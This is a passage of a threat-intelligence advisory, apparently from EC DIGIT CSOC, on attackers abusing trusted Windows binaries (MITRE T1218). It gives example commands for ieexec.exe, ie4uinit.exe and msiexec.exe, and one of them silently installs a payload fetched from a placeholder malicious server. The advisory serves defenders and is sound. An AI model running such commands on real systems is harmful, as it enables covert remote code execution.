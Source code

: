 

# ☣️ Leverage Windows Utilities for Proxy Execution of Malicious Code

🔥 **Criticality:Medium** ❗ : A Medium priority incident may affect public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence. 

🚦 **TLP:CLEAR** ⚪ : Recipients can spread this to the world, there is no limit on disclosure.


🗡️ **ATT&CK Techniques** [T1218 : System Binary Proxy Execution](https://attack.mitre.org/techniques/T1218 'Adversaries may bypass process andor signature-based defenses by proxying execution of malicious content with signed, or otherwise trusted, binaries B')



---

`🔑 UUID : 426a0ab5-66e7-4149-82b0-6357a1cf4b4b` **|** `🏷️ Version : 1` **|** `🗓️ Creation Date : 2024-11-04` **|** `🗓️ Last Modification : 2024-11-04` **|** `Sharing Organisation : {'uuid': '56b0a0f0-b0bc-47d9-bb46-02f80ae2065a', 'name': 'EC DIGIT CSOC'}` **|** `🧱 Schema Identifier : tvm::2.0`


## 👁️ Description

> Threat actors frequently exploit legitimate Windows utilities to execute malicious 
> code covertly, a technique known as "Living off the Land" (LotL). 
> By using trusted system binaries, attackers can bypass security measures that focus 
> on untrusted or unusual processes, thereby reducing the likelihood of detection.
> 
> ### 1. Ieexec.exe
> 
> **Description**: A utility that executes .NET programs. Threat actors can use ieexec.exe 
> to run malicious executables under the guise of Internet Explorer components.
> 
> Example:
> 
> ```
> ieexec.exe C:\path\to\malicious.exe
> ```
> 
> ### 2. Ie4uinit.exe
> 
> **Description**: Initializes user-specific settings for Internet Explorer. 
> Can be misused to execute INF files.
> 
> Example:
> 
> ```
> ie4uinit.exe -UserIconConfig
> ```
> 
> ### 3. Msiexec.exe
> 
> **Description**: Used for installing, modifying, and performing operations 
> on Windows Installer packages. Threat actors can execute malicious MSI packages or scripts.
> 
> Example:
> 
> ```
> msiexec.exe /q /i http://malicious-server/payload.msi
> ```
> 
> ### 4. Pcwrun.exe
> 
